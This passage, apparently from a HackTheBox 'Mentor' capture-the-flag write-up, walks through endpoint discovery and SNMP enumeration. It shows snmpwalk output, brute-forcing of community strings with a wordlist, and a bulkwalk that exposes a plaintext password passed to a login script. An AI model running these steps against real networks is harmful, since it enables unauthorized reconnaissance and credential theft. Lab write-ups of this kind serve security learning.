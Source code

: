 We found additional endpoints including `/admin`:

![Admin Endpoints](/images/mentor-htb/mentor-07.png)

We can see there's a user `james@mentorquotes.htb`:

![James User](/images/mentor-htb/mentor-08.png)

## SNMP Enumeration

Let's enumerate the SNMP service we found on UDP port 161:

```bash
snmpwalk -v2c -c public 10.10.11.193
```

**Results:**
```
iso.3.6.1.2.1.1.1.0 = STRING: "Linux mentor 5.15.0-56-generic #62-Ubuntu SMP Tue Nov 22 19:54:14 UTC 2022 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (1555164) 4:19:11.64
iso.3.6.1.2.1.1.4.0 = STRING: "Me <admin@mentorquotes.htb>"
iso.3.6.1.2.1.1.5.0 = STRING: "mentor"
iso.3.6.1.2.1.1.6.0 = STRING: "Sitting on the Dock of the Bay"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (0) 0:00:00.00
```

### SNMP Community String Brute Force

Let's try different community strings:

```bash
python3 /opt/snmpbrute.py -t 10.10.11.193 \
  -f /opt/SecLists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt -b
```

Let's try the "internal" community string:

```bash
snmpbulkwalk -v2c -c internal 10.10.11.193 | tee bulkwalk.out
```

This reveals running processes with `hrSWRunPath`:

![SNMP Process Discovery](/images/mentor-htb/mentor-09.png)

**Critical Finding:** We discovered a hardcoded password in a process:

```
STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
```

Never put passwords as command line arguments!

![Password Discovery](/images/mentor-htb/mentor-10.png)
